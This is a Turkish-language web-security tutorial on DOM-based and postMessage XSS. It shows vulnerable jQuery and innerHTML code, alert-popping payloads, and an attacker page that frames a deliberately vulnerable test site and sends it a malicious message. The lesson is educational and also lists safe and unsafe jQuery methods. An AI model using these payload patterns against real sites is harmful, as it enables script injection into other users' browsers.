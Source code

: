 # **0x09 | XSS Devam Part 2**

Xss, browserda yaşanan bir zafiyettir ve backend tarafıyla doğrudan bir alakası yoktur. Js, sayfadaki hareket kabiliyetlerini şekillendiren bir dildir. Xss zafiyeti 
ile de js'e yönelik payloadlar yazılır. Peki js kodlarının, user'ın kontrol edebildiği inputları kullanma durumu nasıl gerçekleşecek?

## **DOM XSS**

Burada user'ın kontrol edebildiği inputlar direkt developer'ın yazdığı kodun içindedir.

```
<html>
  <div id="msgArea">
  </div>
  <script>
    username = getUsername(); //API'den mevcut user'ın isminin getirilmesi
    var username = document.getElementById()

    $("#msgArea").html('Merhaba' + username);
  </script>
 </html>
```

Bir kullanıcı bir web uygulamasına kayıt olurken bir form doldurma yetkisine sahiptir. Girdiği kullanıcı adı veya şifre gibi bilgiler veri tabanına kaydedilir. Db'e kaydedildikten sonra uygulama, bilgileri kullanıcıya gösterecektir. Göstermek için de dom'u günceller. Yani kullanıcıdan gelen değişken dom'da değişikliğe sebep olur. 

Eğer username olarak <svg onload=alert(1)> yazarsak

```
<html>
  <div id="msgArea">
  </div>
  <script>
    username = getUsername(); //API'den mevcut user'ın isminin getirilmesi

    $("#msgArea").html('Merhaba' + username);

    document.getElementById('msgArea').innerHTML = 'Merhaba <svg onload=alert(1)>';
  </script>
 </html>
```

js id'si "msgArea" olan html tag'ına *<svg onload=alert(1)>* kodunu yerleştirir.

Girilen input uygulamada encode edimiş olsa bile başka bir yerde unescape edilip html'de kullanılabilir. Bu yüzden encode edilen kısımda xss açığı olmasa bile aynı input, uygulamanın başka yerlerinde açığa sebep olabilir. Bu nedenle dom'un nerede güncellendiği önemli bir husustur. 

```
username = "mehmet%3c"
$("msgArea").html('Merhaba '+ unescape(username));
```

Uygulamadaki tüm kodları baştan aşağı incelemektense aşağıdaki gibi dom update'in gerçekleşmesini sağlayan jquery fonksiyonlarını incelemek mantıklı olacaktır.

```
Safe
.text()
.attr() // still needs to be careful when used in an href
.prop()
.val()
Unsafe
$("html code")
.html()
.append*()
.insert*()
.prepend*()
.wrap*()
.before()
.after()

https://coderwall.com/p/h5lqla/safe-vs-unsafe-jquery-methods
```

## **Post Message**

Bu kodda görüldüğü üzere bir eventlistener var. Eventlistener'ın yaptığı şey ise mesaj geldiğinde postMessageHandler isimli fonksiyona göndermek. Fonksiyon, gelen mesajın bir json olmasını bekliyor. Json parse edildiğinde oluşan content'i alınıp bir div oluşturuluyor. Bu div'in içine gelen mesajı innerhtml ile yerleştiriyor, oluşan divi sayfaya ekliyor ve bu sayfada bir xss var. 

```
<html>
  <head><title>Toxic DOM</title></head>
  <body>
    <script>
      var postMessageHandler = function(msg) {
  var content = JSON.parse(msg.data);
  var div = document.createElement('div');
  div.innerHTML = content.html;
  document.documentElement.appendChild(div);
};

window.addEventListener('message', postMessageHandler, false);

    </script>
  </body>
</html>
```

### **Peki bu xss nasıl oluşuyor?**

"hacker.com" isminde bir web sitesi düşünelim. Bu websitesi browser tarafından çağrılıyor. hacker.com'da bir iframe açılacak. Açılan iframe'de ise "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml" url'i olacak. Bu url, xss zafiyeti barındıran bir sitenin. Iframe ile açmamızın sebebi ise bu web sitesinin içeriğinde kendisini iframe ile açan kişinin gönderdiği mesajları dinleyen ve buna göre aksiyon alan bir JavaScript kodunun olmasıdır. hacker.com’da browser tarafından iframe ile açtığımız bağlantıya bir json verisi gönderilecek ve alınan bu json parse edildikten sonra ‘content’ elde edilecektir. Daha sonra bu content içeriği innerHTML ile direkt olarak div içerisine yazdırılır. Burada innerHTML kullanımı tehlikelidir.

Innerhtml'in tehlikeli olma sebebi aşağıdaki koddan da anlaşılabilir. Innerhtml *<svg onload=alert(1)>* payload'ını domun içine ekliyor. 

```
<html>
  <script>
      var div = document.createElement("div");
      div.innerHTML = "<svg onload=alert(1)>";
      document.documentElement.appendChild(div);
  </script>
  <body>
    <div id="test"></div>
  </body>
</html>
```

Aşağıdaki kaynak kodlara sahip hacker.com web sitesinde, iframe ile bu sayfa açıldığını varsayarsak. Sayfa açıldığında bizi xss barındıran siteye götürecektir. Ama bu, daha dinamik bir şekilde de yapılabilir. 

```
<html>
  <body>
    <iframe
      src="https://public-firing-range.appspot.com
       /dom/toxicdom/postMessage/innerHtml">

    </iframe>
  </body>
</html>
```

Bu web sitesi, kendisini iframe ile açan bir sayfadan mesaj alan ve bu mesajdaki veri ile veriyi parse ettikten sonra bir div oluşturuyordu. div'in içeriğine kullanıcıdan aldığı mesajı yazıyor. Sitenin yaptığı işlemler özetle bu şekildeydi. Aşağıdaki kodlarda, JavaScript ile bir EventListener eklenmiş durumda, buradaki EventListener kendisine bir mesaj geldiğinde bu mesajı alır ve postMessageHandler isimli fonksiyona gönderir. Bu sayfayı iframe ile açan başka bir web sitesinin bu web sitesine gönderdiği event mesajını alan fonksiyon bu içeriğin json olmasını beklemektedir. Aldığı bu json’ı parse ettiğinde oluşan içeriği alıp yeni oluşturduğu div’in içerisine HTML şeklinde yerleştirir. Daha sonra da oluşan bu div’i sayfaya eklemektedir. Burada da XSS meydana gelir. 

```
<html>
    <iframe id = "target" src = ""> </iframe>
  <script>
    var target = document.getElementById('target');
    target.addEventListener('load',function(){
      var payload = {'html':'x'};
      target.contentWindow.postMessage(JSON.stringify(payload),'*');
});
      target.src = "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml"
  </script>
</html>
```

Kodun, sitede pop-up çıkartacak hâli aşağıdadır.

```
<html>
    <iframe id = "target" src = ""> </iframe>
  <script>
    var target = document.getElementById('target');
    target.addEventListener('load',function(){
      var payload = {'html':'<img src=x onerror=alert(1)>'};
      target.contentWindow.postMessage(JSON.stringify(payload),'*');
});
      target.src = "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml"
  </script>
</html>
```

